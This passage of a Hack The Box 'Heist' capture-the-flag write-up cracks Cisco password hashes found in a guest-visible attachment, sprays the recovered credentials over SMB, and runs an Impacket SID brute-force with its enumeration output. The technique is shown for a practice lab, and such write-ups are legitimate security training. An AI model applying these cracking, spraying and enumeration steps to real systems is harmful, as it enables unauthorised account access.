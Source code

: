 <p>SMB did not reveal anything public so let's take a look at the web service running.</p>

<p align="center">
<img width="100%" height="100%" src="{{ '/assets/htb-heist/webpage.PNG' | relative_url }}">
</p>

<p align="center">
<img width="100%" height="100%" src="{{ '/assets/htb-heist/burp.PNG' | relative_url }}">
</p>

<p>Looks like there is a guest login option. Let's pop in as guest and see what we can find.</p>

<p align="center">
<img width="100%" height="100%" src="{{ '/assets/htb-heist/recon-issues.PNG' | relative_url }}">
</p>

<p>Oooh, an attachment? Don't mind I do!</p>

<p align="center">
<img width="100%" height="100%" src="{{ '/assets/htb-heist/recon-attachment.PNG' | relative_url }}">
</p>

<p>Ok excellent, we're starting our credentials list. Cracking the type-5 and type-7 cisco hashes we now have a list of:</p>

{% highlight shell %}
hazard:stealth1agent
rout3r::0242114B0E143F015F5D1E161713::$uperP@ssword
admin::02375012182C1A1D751618034F36415408::Q4)sJu\Y8qz*A3?d
{% endhighlight %}

<p>The first pairing of <code>hazard/stealth1agent</code> was a guess based on the username in the issues post. I dumped all potential passwords and usernames into corresponding files and used the smb_login module to spray them for validity.</p>

<p align="center">
<img width="100%" height="100%" src="{{ '/assets/htb-heist/recon-smbenum2.PNG' | relative_url }}">
</p>

<h1>User exploitation</h1>

<p>Unfortunately at this point Hazard was not able to log in using winrm so took a different angle and tried dumping more information with the valid credentials.</p>

{% highlight python %}
root@kali:~/Desktop/HTB/Heist# python lookupsid2.py hazard:stealth1agent@10.10.10.149
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

Brute forcing SIDs at 10.10.10.149
Trying protocol 445/SMB...
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
{% endhighlight %}

